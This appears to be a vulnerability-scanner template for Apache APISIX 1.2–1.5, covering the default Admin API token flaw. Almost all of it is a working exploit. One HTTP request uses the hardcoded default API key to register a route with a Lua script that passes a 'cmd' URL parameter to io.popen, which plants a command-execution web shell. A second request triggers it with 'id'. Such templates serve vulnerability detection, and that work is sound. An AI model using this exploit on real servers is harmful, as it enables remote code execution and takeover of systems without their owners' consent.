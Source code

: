 - password

---

# Apache APISIX - Insufficiently Protected Credentials

## Description

- Apache APISIX 1.2, 1.3, 1.4, and 1.5 is susceptible to insufficiently protected credentials. An attacker can enable the Admin API and delete the Admin API access IP restriction rules. Eventually, the default token is allowed to access APISIX management data.
- severity - medium
- tags - intrusive,vulhub,packetstorm,cve,cve2020,apache,apisix

## Requests

### Step - 1

```
POST /apisix/admin/routes HTTP/1.1
Host: {{Hostname}}
X-API-KEY: edd1c9f034335f136f87ad84b625c8f1
Content-Type: application/json

{
  "uri":"/{{randstr}}",
  "script":"local _M = {} \n function _M.access(conf, ctx) \n local os = require('os')\n local args = assert(ngx.req.get_uri_args()) \n local f =        assert(io.popen(args.cmd, 'r'))\n local s = assert(f:read('*a'))\n ngx.say(s)\n f:close()  \n end \nreturn _M",
  "upstream":{
    "type":"roundrobin",
    "nodes":{
      "interact.sh:80":1
    }
  }
}

```

### Step - 2

```
GET /{{randstr}}?cmd=id HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**
